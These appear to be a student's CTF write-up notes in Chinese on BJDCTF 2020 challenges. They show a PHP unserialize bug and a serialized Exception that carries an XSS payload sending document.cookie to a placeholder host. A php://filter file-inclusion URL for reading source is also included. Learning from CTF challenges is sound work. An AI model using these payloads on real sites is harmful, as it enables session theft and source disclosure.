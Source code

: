 ```php
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```

不太懂 上师傅的脚本

```php
<?php
$a = serialize(new Exception("<script>window.location.href='xxxx'+document.cookie</script>"))
echo $a;

```

参考：https://www.ctfwp.com/官方赛事题/2020第二届BJDCTF

## 文件探测

```html
<!-- Inheriting and carrying forward the traditional culture of the first BJDCTF, I left a hint in some place that you may neglect  -->
<!-- If you have no idea about the culture of the 1st BJDCTF, you may go to check out the 1st BJDCTF's wirteup that can be found in my blog -->
```

![1585382206792](C:\Users\honor\AppData\Roaming\Typora\typora-user-images\1585382206792.png)

藏在头里

![1585382240585](C:\Users\honor\AppData\Roaming\Typora\typora-user-images\1585382240585.png)

然后接下来不知道怎么做了 看wp

 `这应该很敏感的考虑到文件包含。如果引用别的就会被拼接上.fxxkyou（GXYCTF BabySQLi v3.0的套路）  于是乎，用伪协议读一下system.php的源码：` 

```
http://file-detect.bjdctf.y1ng.vip:12301/home.php?file=php://filter/convert.base64-encode/resource=system
```

参考：https://www.gem-love.com/ctf/2097.html#File_Detect
